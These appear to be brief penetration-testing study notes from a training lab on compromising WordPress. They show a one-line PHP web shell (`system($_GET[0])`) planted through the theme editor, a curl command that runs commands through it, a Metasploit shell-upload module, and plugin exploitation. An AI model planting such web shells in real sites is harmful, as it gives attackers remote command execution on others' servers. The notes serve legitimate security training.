 Add to appearance -> theme editor -> select theme -> some php file 
```php
system($_GET[0]);
```
now we curl which ever site with `?0=id`
```shell-session
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id
```
can also use `wp_admin_shell_upload` in metasploit

leverage known vulnerabilities in themes and what not


enumeration vulnerable plugins
https://wpdiscuz.com/
^ the exploit here may fail, just access the site again using curl and ?cmd= after the .php

